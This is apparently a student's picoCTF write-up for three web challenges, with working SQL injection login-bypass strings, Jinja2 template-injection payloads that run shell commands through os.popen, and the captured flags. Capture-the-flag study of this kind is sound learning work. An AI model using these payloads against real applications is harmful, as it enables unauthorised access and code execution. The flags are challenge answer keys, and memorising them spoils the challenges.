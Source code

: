 # 1. Web Gauntlet

> Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:61726/ http://shape-facility.picoctf.net:61726/filter.php

## Solution:
In this challenge we have 2 sites, the first one a login screen which we need to log into and the other one gives some info about each round's filters'  
We need to login as `admin`  
The website uses filters which we need to bypass.  
- filter for round 1, `or`  
We write `admin' --`, this puts the username as admin and bypasses the password by making it a comment.  
```sql
WHERE username = 'admin' -- ' AND password = 'whatever';
```  
- filter for round 2, `or and like = --`  
For this we type the username as `admin` and the password as `1' is not '2'`, in the query the password becomes `'1' is not '2'` which return true.  
- filter for round 3 `or and = like > < --`  
The trick `a' is not 'b` doesn't work in this challenge, there might be a filter blocking it.
So we use `admin';` , the `;` here end the statement, so it never checks the password.
- filter for round 4 `or and = like > < -- admin`  
For this round we are not allowed `admin` string, so we concatenate it using `||`,  
`a'||'dmin';`
- filter for round 4 `or and = like > < -- admin`  
`a'||'dmin';` works as well for this round !

> we got the flag in filter.php as `picoCTF{y0u_m4d3_1t_79a0ddc6}`

## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- Filter  
Code that blocks certain words
- Ijection  
When you put in a special text in username, password, etc which makes the server's SQL do something else than intended
- Payload
The speial text that you put in to exploit the weakness
- bit of SQL

## Notes:

- At first I didn't understand the use of the second site and was trying different ways to bypass the log in screen, but later on realised it tells us about the filters for that round.
- We can also use `/*` which is the multi line comment instead of `;` in some rounds.

## Resources:
[SQL ref](https://www.w3schools.com/sql/sql_injection.asp)  
[SQL injection](https://portswigger.net/support/sql-injection-bypassing-common-filters)

***
# 2. SSTI1

> I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:
In this challenge we have a website which announces whatever you type in the text box.  
For example if we type "hello" then the site will print that string.  
Now as the name suggests SSTV(Server Side Template Injection) we need to inject some code into this template to get the flag.  
We write-
```bash
lallu@VedantLohan:~$ curl -I http://rescued-float.picoctf.net:59262/
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Mon, 27 Oct 2025 17:01:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 567
Connection: close
```  
We see that it is a python server.
We try `{{7*8}}` on the site to check if it works in the template and it prints `56` This means it works on `jinja2`.  
Now we list all files in the server  
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```  
Which gives us
```
__pycache__ app.py flag requirements.txt
```  
Now we just cat the flag-  
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}`


## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```

## Concepts learnt:
- Template engine  
It lets you create a dynamic webpage, means you can fill in some data in the site which goes into the template and produces the final webpage.  
- Jinja2 syntax: `{{ expression }}` prints the evaluated expression.  



## Notes:
- Mistake I made was that at first I was trying to do stuff like `{{ls}}` which obviously didn't work beacuse `{{  }}` evaluates Python/Jinja expressions and not shell commands.

## Resources:

- [SSTI with Jinja2](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)


***

# 3. Cookies

> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Solution:
We open the cookies of the webpage by inspecting it, we see a cookie named `name` which was initially set to `0`, after typing in something invalid the cookie changed to `-1`  
![test1](https://drive.google.com/uc?id=1akHDXtKpRABwTpHn8QNw7LPcwt-SWMIJ)  
Trying different values for the cookie-  
![test2](https://drive.google.com/uc?id=1Fqoh2epHk_L_MfOVOHJwvo2ebOVLHnIW)  
Similarly trying out different values for the cookie gives us the flag at value `18`-  
![flag](https://drive.google.com/uc?id=1JshMMqVyofdJdQQSl-ux7ZMgckaWO7QB)

## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
```

## Concepts learnt:
- Cookies  
They carry small pieces of data and basically helps the website remember info about you.

## Resources:

- [check cookies](https://www.cookieyes.com/blog/how-to-check-cookies-on-your-website-manually/#:~:text=Right%2Dclick%20and%20click%20on,shown%20on%20the%20blocked%20tab.)

***
